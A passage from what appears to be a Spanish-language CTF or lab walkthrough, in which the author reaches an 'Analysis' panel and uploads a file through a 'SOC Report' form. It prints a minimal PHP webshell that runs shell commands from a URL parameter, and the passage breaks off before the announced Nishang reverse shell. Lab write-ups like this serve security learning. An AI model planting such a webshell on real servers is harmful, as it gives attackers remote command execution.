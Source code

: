 Comprobamos que logramos acceder al panel de Analysis y de las tecnologías que utiliza el sitio web, entre ellos, lenguaje de programación PHP.

<figure><img src="../../../.gitbook/assets/1647_vmware_WgsCNFQlGQ.png" alt=""><figcaption></figcaption></figure>

### Creating a PHP webshell for command execution + Reverse Shell with Nishang

En el apartado de "SOC Report" vemos que podemos subir un archivo que se ejecutará en una Sandvoz por parte de los analistas SOC. Para ello crearemos un archivo PHP de una WebShell simple.

```php
<?php
  echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

<figure><img src="../../../.gitbook/assets/1648_vmware_da0Zakm0mG.png" alt=""><figcaption></figcaption></figure>

Subiremos el archivo "cmd.php" de la WebShell que hemos creado.

<figure><img src="../../../.gitbook/assets/1649_vmware_OgrdrYSXEN.png" alt="" width="563"><figcaption></figcaption></figure>
